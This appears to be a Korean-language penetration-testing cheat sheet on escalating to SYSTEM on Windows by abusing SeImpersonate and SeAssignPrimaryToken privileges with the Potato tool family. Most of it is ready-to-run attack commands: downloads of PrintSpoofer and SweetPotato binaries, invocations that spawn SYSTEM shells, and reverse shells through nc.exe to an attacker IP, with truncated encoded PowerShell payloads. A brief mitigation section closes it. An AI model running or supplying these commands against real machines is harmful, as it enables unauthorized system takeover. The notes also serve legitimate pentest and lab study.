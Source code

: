 cu

# SeImpersonate / SeAssignPrimaryToken 권한 상승 가이드

`SeImpersonatePrivilege`와 `SeAssignPrimaryTokenPrivilege`는 Windows에서 가장 흔하게 발견되고 성공적으로 악용되는 권한 상승 벡터 중 하나입니다. 웹 서버(IIS)나 데이터베이스(MSSQL) 같은 서비스 계정이 이 권한을 보유한 경우가 많으며, 이를 통해 `NT AUTHORITY\SYSTEM`의 권한을 탈취할 수 있습니다.

### **취약점 원리**

이 권한들은 특정 프로세스가 다른 사용자(보안 주체)의 보안 토큰을 훔치거나 생성하여 스레드에 적용할 수 있게 해줍니다. 공격자는 이 권한을 가진 현재 세션에서, 로컬 시스템의 `SYSTEM` 계정이 인증을 시도하도록 유도하는 특정 RPC/DCOM 통신을 트리거합니다. 그 후, `SYSTEM`이 콜백 연결을 시도할 때 그 연결로부터 보안 토큰을 가로채, 해당 토큰으로 새로운 프로세스(예: `cmd.exe`)를 생성하여 `SYSTEM` 권한을 획득합니다. 이 일련의 과정을 자동화한 것이 바로 "Potato" 시리즈 공격입니다.

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 해당 권한을 보유하고 있는지 확인합니다.

```powershell title="현재 세션의 권한 확인"
whoami /priv
```

- **확인 사항:** 출력된 목록에 `SeImpersonatePrivilege` 또는 `SeAssignPrimaryTokenPrivilege`가 `Enabled` 상태로 있는지 확인합니다.

---

### **2. 주요 공격 도구**

다양한 "Potato" 도구들이 있지만, 대상 Windows 버전에 따라 성공률이 다릅니다. 최신 도구를 먼저 시도하는 것이 좋습니다.

#### **PrintSpoofer (가장 추천)**
- **특징:** 최신 Windows 버전(Windows 10, Server 2019/2022)에서도 안정적으로 작동하는 가장 현대적이고 효과적인 도구입니다.
- **[GitHub 링크](https://github.com/itm4n/PrintSpoofer)**

```powershell title="PrintSpoofer - 대화형 SYSTEM 셸 획득"
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
# -i: 대화형 모드로 실행
# -c: 실행할 명령어
./PrintSpoofer64.exe -i -c cmd.exe

# If you don't, then try (32, 64 둘다 시도해보기)
./PrintSpoofer64.exe -c "c:\windows\tasks\nc.exe [kali_ip] 443 -e cmd"
```

#### **GodPotato**
- **특징:** PrintSpoofer와 마찬가지로 최신 Windows 환경을 지원하는 또 다른 강력한 도구입니다.
- **[GitHub 링크](https://github.com/BeichenDream/GodPotato)**

```powershell title="GodPotato - 리버스 셸 실행"
# -cmd: 실행할 명령어 (예: nc.exe를 이용한 리버스 셸 연결)
./GodPotato-NET4.exe -cmd "C:\Windows\tasks\nc.exe <attacker_ip> 4444 -e cmd.exe"

./Godpotato.exe -cmd cmd.exe

./GodPotato-NET4.exe -cmd "powershell.exe -C JABjAGwAaQBletc"
```

#### **JuicyPotato / RottenPotato**
- **특징:** 구형 Windows 버전(Windows 7/8/10, Server 2008/2012/2016)에서 주로 사용되던 고전적인 방식입니다. 특정 DCOM 객체의 CLSID를 필요로 하며, 최신 OS에서는 작동하지 않을 가능성이 높습니다.
- **[JuicyPotato GitHub 링크](https://github.com/ohpe/juicy-potato)**
- https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
- Useful reference video of attack : https://youtu.be/dXotJLV6jj4?t=1848
- Run systeminfo on box and then find the proper CLSID from here : https://github.com/ohpe/juicy-potato/tree/master/CLSID/

```powershell title="JuicyPotato - 특정 CLSID로 공격"
# -t *: 프로세스 생성 방식 (t: create process, u: with token, p: with program)
# -l: 리스닝 포트
# -p: 실행할 프로그램
# -c: 사용할 DCOM CLSID
JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -l 1337 -c "{...특정_CLSID...}"

./JuicyPotatao.exe -t * -l 1337 -p "powershell.exe -e JABjetc"
```

#### **SweetPotato**
- https://github.com/CCob/SweetPotato
- https://github.com/uknowsec/SweetPotato/blob/master/README.md

```powershell
wget https://github.com/uknowsec/SweetPotato/raw/refs/heads/master/SweetPotato-Webshell-new/bin/Release/SweetPotato.exe

./SweetPotato.exe -p test.bat
```

---

### **3. 방어 (Mitigation)**

- **최소 권한의 원칙:** IIS 애플리케이션 풀 계정, MSSQL 서비스 계정 등 일반적인 서비스 계정에서 `SeImpersonatePrivilege`와 `SeAssignPrimaryTokenPrivilege`를 제거합니다. 이 권한들은 대부분의 서비스 운영에 필수적이지 않습니다.
- **가상 계정 사용:** 최신 IIS/MSSQL 버전에서 기본적으로 사용하는 가상 계정(Virtual Account)은 이러한 권한을 가지지 않으므로, 가급적 가상 계정을 사용하는 것이 안전합니다.
